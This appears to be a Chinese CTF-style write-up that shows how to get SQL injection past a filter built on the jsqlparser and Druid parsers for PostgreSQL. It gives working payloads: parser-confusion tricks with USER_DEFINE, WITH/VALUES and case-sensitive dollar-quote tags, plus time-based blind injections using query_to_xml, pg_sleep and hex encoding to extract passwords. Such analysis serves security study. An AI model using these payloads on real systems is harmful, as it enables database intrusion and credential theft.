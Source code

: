### 方法一
这里其实有一个很奇怪的点，如果sql语句进入到第二层 catch 异常处理，就会调用 filter 方法
![](https://img-blog.csdnimg.cn/direct/092e5b1f85464302a66810fd236377e4.png)

如果`sql.contains(" USER_DEFINE ")`，则直接返回true

1. 第一层`SQLParser.parse(sql)`，使用jsqlparser解析sql语句
2. 第二层`SQLUtils.parseStatements(sql, JdbcConstants.POSTGRESQL)`，使用Druid解析sql语句

假如能使两个解析器都报错，同时语句也能够在数据库中正常执行，就实现了绕过

payload1：
```
username='||passwd::int||text' USER_DEFINE &passwd=123
```
payload2：
使用`WITH AS`子查询，每个WITH子句中的辅助语句可以是一个SELECT、INSERT、UPDATE 或 DELETE

使用values产生报错
```
username='||passwd::int||(with USER_DEFINE as (values(1)) values(1))||'&passwd=123
```
payload3：
注意到在执行检测前转换为了大写，而执行查询将保持小写
![](https://img-blog.csdnimg.cn/direct/b958213e96aa4b0e8a051fc4b7126977.png)

我们需要找到一种语句在大写时报错，小写时正常执行

即`$`，一个美元符引用字符串的标签(如果有标签的话)，遵循和无引号包围的标识符相同的规则， 只是它不能包含美元符。标签是大小写敏感的，因此`$tag$String content$tag$`是正确的，而`$TAG$String content$tag$`则是错误的
```
username='||substr($u$foo$U$ USER_DEFINE $U$bar$u$,0,0)||passwd::json||'&passwd=123
```
![](https://img-blog.csdnimg.cn/direct/fc9a9c7e8ca44296ac10f82e817b36e8.png)

最终会将异常打印出来
![](https://img-blog.csdnimg.cn/direct/63420f6014a4447a94a243ce9ecc5a0e.png)


### 方法二
我们可以使用`||`连接字符来绕过黑名单
![](https://img-blog.csdnimg.cn/direct/945d3981968340c2915952e369eaedb7.png)

使用 query_to_xml 函数内嵌sql语句，pg_sleep时间盲注

还可以使用decode函数，传hex字符
![](https://img-blog.csdnimg.cn/direct/250f132e4d6c46659fb925aedf1ef97e.png)

最后给出的poc如下：
```
'||''||(query_to_xml('sele'||'ct ca'||'se wh'||'en substr((sele'||'ct passwd from message_users),1,1)=chr(120) then p'||'g_sl'||'eep(3) else p'||'g_sl'||'eep(0) en'||'d',true,true,''))||'1

'||''||(query_to_xml(encode(decode('73656c6563742063617365207768656e20737562737472282873656c656374207061737377642066726f6d206d6573736167655f7573657273292c312c31293d6368722831323029207468656e2070675f736c65657028332920656c73652070675f736c65657028302920656e64','hex'),'esc'||'ape'),true,true,''))||'1
```
